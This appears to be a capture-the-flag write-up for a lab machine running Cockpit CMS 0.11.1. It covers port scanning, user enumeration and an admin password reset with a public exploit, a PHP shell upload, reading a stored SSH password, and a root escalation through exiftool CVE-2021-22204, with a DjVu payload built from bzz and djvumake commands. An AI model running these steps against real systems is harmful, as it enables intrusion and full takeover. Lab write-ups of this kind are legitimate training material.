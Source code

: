 
### Enumeration 
- services and port scanning
  ```bash
  nmap -sV -Pn -p- -sS -T5 10.10.21.109 -oN enum-srv.txt
  ```

  ```
  Nmap 7.95 scan initiated Thu May  8 14:28:20 2025 as: /usr/lib/nmap/nmap --privileged -sV -Pn -p- -sS -T5 -oN enum-srv.txt 10.10.21.109
  Warning: 10.10.21.109 giving up on port because retransmission cap hit (2).
  Nmap scan report for cmspit.thm (10.10.21.109)
  Host is up (0.16s latency).
  Not shown: 65532 closed tcp ports (reset)
  PORT      STATE    SERVICE VERSION
  22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
  80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
  29779/tcp filtered unknown
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  ```

- Q1: What is the name of the Content Management System (CMS) installed on the server?  
  - **cockpit**  
  ![](images/main-page.png)

- Q2: What is the version of the Content Management System (CMS) installed on the server?  
  - **0.11.1**  
  ![](images/version.png)

- We have CMS name and version, let's search for vulnerabilities  
  ![](images/search.png)

- Results:  
  ![](images/cve.png)

- Downloaded exploit and ran:  
  ```bash
  python3 50185.py -u http://cmspit.thm
  ```

- Valid usernames returned:  
  ![](images/validusers.png)

- Q3: How many users can you identify when you reproduce the user enumeration attack?  
  - **4**

- Get more info about users:  
  ![](images/getinfo.png)

- Reset password for `admin` account:  
  ![](images/newpass.png)

- Q4: What is the path that allows you to change user account passwords?  
  - **auth/resetpassword**  
  ![](images/resetpass.png)

- Logged in successfully:  
  ![](images/succes-login-admin.png)

- After login, discovered file upload functionality at:  
  **http://cmspit.thm/assetsmanager/upload**  
  ![](images/upload.png)

- Upload with PHP extension worked:  
  ![](images/sucess.png)  
  ![](images/php-code.png)

- Accessed the file and got a shell:  
  ![](images/shell-done.png)

- Upgraded shell using Python:  
  ```bash
  python3 -c "__import__('pty').spawn('/bin/bash')"
  ```

- Found a document with DB credentials/flag:  
  ![](images/lsuser.png)  
  ```bash
  cat /home/stux/.dbshell
  ```  
  ![](images/db-flag.png)

- Gained access via SSH:  
  - **stux : p4ssw0rdhack3d!123**  
  ```bash
  ssh stux@10.10.21.109
  ```  
  ![](images/gain-ssh.png)

- Got the user flag:  
  ![](images/user-flag.png)

---

### Privilege Escalation to Root

- Checked for sudo permissions:  
  ```bash
  sudo -l
  ```  
  ![](images/root-path.png)

- Found `exiftool` can be run as sudo. Vulnerability: **CVE-2021-22204**  
  - Reference: [https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/](https://vk9-sec.com/exiftool-12-23-arbitrary-code-execution-privilege-escalation-cve-2021-22204/)

- Steps to escalate privileges:

  - Create malicious payload:
    ```bash
    echo '(metadata "\c${system('/bin/bash -p')};")' > payload
    ```

  - Compress it:
    ```bash
    bzz < payload > payload.bzz
    ```

  - Convert to `.djvu` format using `djvumake`:
    ```bash
    djvumake exploit.djvu INFO='1,1' BGjp=/dev/null ANTz=payload.bzz
    ```

  - Transfer the file to victim machine  
    ![](images/done-upload.png)

  - Execute:
    ```bash
    sudo exiftool exploit.djvu
    ```  
    ![](images/root-flag.png)
